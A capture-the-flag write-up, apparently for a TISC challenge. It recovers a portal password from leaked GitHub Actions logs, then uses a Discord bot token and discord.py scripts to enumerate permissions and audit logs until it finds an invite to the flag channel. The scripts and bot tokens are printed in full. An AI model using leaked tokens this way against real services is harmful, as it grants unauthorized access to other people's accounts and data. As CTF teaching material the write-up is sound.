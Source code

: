 I looked through all the information on github. The first thing I checked, of course, was the code in the repository. There was only one file, under .github/workflows

```yml:test_portal.yml
name: Test the PALINDROME portal

on:
    issues:
        types: [closed]

jobs:
  test:
    runs-on: windows-latest
    steps:
      - uses: actions/checkout@v3
      - name: Test the PALINDROME portal
        run: | 
          C:\msys64\usr\bin\wget.exe '''${{ secrets.PORTAL_URL }}/${{ secrets.PORTAL_PASSWORD }}''' -O test -d -v
          cat test
```

I looked through the branches and commit history, but there was nothing interesting there. There seemed to be a few issues and pull requests, but I soon realised that these were created by other participants. Then I moved to the actions tab, and found the `Portal opening` job triggered by palindrome-wow, and saw interesting stuff in the logs:

![portal opening logs](/palindromes-invitation-gh-log.png)

It seems that the `PORTAL_URL` and `PORTAL_PASSWORD` have been leaked in the logs. Although `PORTAL_URL` is redacted, we can see there was an attempt to connect to 18.143.127.62:45938. Accessing this in the browser, we are greeted with a login page:

![palindrome portal](/palindromes-invitation-portal.png)

I tried submitting `:dIcH:..uU9gp1%3C@%3C3Q%22DBM5F%3C)64S%3C(01tF(Jj%25ATV@$Gl` as the password, but this didn't work. But after putting this value into CyberChef, I realised it was the base85 encoded and url encoded string `"PALINDROME has an AUTOMATED secretary"`. It turned out that the correct password was base85 encoded value, `":dIcH:..uU9gp1<@<3Q"DBM5F<)64S<(01tF(Jj%ATV@$Gl"`. After entering this in, I am presented with a discord invite link, with some token in the comments:

```html
<body>
  <a href="https://discord.gg/2cyZ6zpw7J">Welcome!</a>
  <!-- MTEyNTk4MjE2NjM3MTc5NDk5NQ.GEg0DH.bO_tBcJZEWJkaPd6ssIJKGLI_8TD4LY07D52RY -->
  <!-- You have 15 minutes before this token expires! Find a way to use it and be fast! You can always re-enter the password to get a new token, but please be considerate, it is highly limited. -->
</body>
```

When I joined the server from the link, there seemed to be no channels at all.

The token turned out to be the token for a discord bot. I used discord.py to interface with the bot, and first listed what text channels were available.

```python:t.py
import discord

TOKEN = "MTEyNTk4MjMyNzk1NzM3Mjk0OQ.G31hYi.oV4zE1q5lAvJ-jrFAIGiZYKoNpbAIofoYIIRis"

c = discord.Client()

@c.event
async def on_ready():
    print(c.guilds[0].text_channels)

c.run(TOKEN)
```

There were 3 channels, `general`, `meeting-records`, and `flag`. When I tried to access the `flag` channel, however, I found that I did not have permissions to read the chat history. Now, I thought it would be a good idea to list what permissions I had.

```python:t.py
...

def print_perms(perms):
    for p in dir(perms):
        if p[0] != '_' and not callable(getattr(perms, p)) and getattr(perms, p) == True:
            print(p)
    print()

@c.event
async def on_ready():
    g = c.guilds[0]
    print_perms(g.get_member(c.user.id).guild_permissions)
```

This gave the following list of permissions:

```plaintext
read_message_history
read_messages
view_audit_log
view_channel
```

I viewed the audit log with the following code:

```python
...

def print_obj(g):
    for a in dir(g):
        if a[0] != '_' and not callable(getattr(g, a)):
            print('\t' + a + ': ' + str(getattr(g, a)))
    print()

@c.event
async def on_ready():
    async for x in g.audit_logs(limit=None):
        print(x)
        continue
        print('-'*50)
        print_obj(x)
    print()
```

In the logs, I saw a few other participants had been granted the admin role by the BetterInvites bot. However, I was stuck here for a while and tried a bunch of other stuff before realising there were more invite links in the audit log.

```
...

<AuditLogEntry id=1149538180668858448 action=AuditLogAction.invite_create user=<User id=1130165088788168858 name='palindromewow' global_name='PALINDROME' bot=False>>
--------------------------------------------------
	action: AuditLogAction.invite_create
	after: <AuditLogDiff code='HQvTm5DSTs' channel=<TextChannel id=1132170608013226084 name='flag' position=2 nsfw=False news=False category_id=1132169821623165142> inviter=<User id=1130165088788168858 name='palindromewow' global_name='PALINDROME' bot=False> uses=0 max_uses=0 max_age=0 temporary=False flags=0>
	before: <AuditLogDiff code=None channel=None inviter=None uses=None max_uses=None max_age=None temporary=None flags=None>
	category: AuditLogActionCategory.create
	changes: <AuditLogChanges before=<AuditLogDiff code=None channel=None inviter=None uses=None max_uses=None max_age=None temporary=None flags=None> after=<AuditLogDiff code='HQvTm5DSTs' channel=<TextChannel id=1132170608013226084 name='flag' position=2 nsfw=False news=False category_id=1132169821623165142> inviter=<User id=1130165088788168858 name='palindromewow' global_name='PALINDROME' bot=False> uses=0 max_uses=0 max_age=0 temporary=False flags=0>>
	created_at: 2023-09-08 02:54:19.658000+00:00
	extra: None
	guild: PALINDROME's secret chat room
	id: 1149538180668858448
	reason: None
	target: https://discord.gg/HQvTm5DSTs
	user: palindromewow
	user_id: 1130165088788168858

<AuditLogEntry id=1149538164214612129 action=AuditLogAction.invite_create user=<User id=1130165088788168858 name='palindromewow' global_name='PALINDROME' bot=False>>
--------------------------------------------------
	action: AuditLogAction.invite_create
	after: <AuditLogDiff code='RBjatqsJ' channel=<TextChannel id=1132170608013226084 name='flag' position=2 nsfw=False news=False category_id=1132169821623165142> inviter=<User id=1130165088788168858 name='palindromewow' global_name='PALINDROME' bot=False> uses=0 max_uses=0 max_age=604800 temporary=False flags=0>
	before: <AuditLogDiff code=None channel=None inviter=None uses=None max_uses=None max_age=None temporary=None flags=None>
	category: AuditLogActionCategory.create
	changes: <AuditLogChanges before=<AuditLogDiff code=None channel=None inviter=None uses=None max_uses=None max_age=None temporary=None flags=None> after=<AuditLogDiff code='RBjatqsJ' channel=<TextChannel id=1132170608013226084 name='flag' position=2 nsfw=False news=False category_id=1132169821623165142> inviter=<User id=1130165088788168858 name='palindromewow' global_name='PALINDROME' bot=False> uses=0 max_uses=0 max_age=604800 temporary=False flags=0>>
	created_at: 2023-09-08 02:54:15.735000+00:00
	extra: None
	guild: PALINDROME's secret chat room
	id: 1149538164214612129
	reason: None
	target: https://discord.gg/RBjatqsJ
	user: palindromewow
	user_id: 1130165088788168858

...
```

Joining using one of the invite links, I was able to access the flag channel and get the flag: `TISC{H4ppY_B1rThD4y_4nY4!}`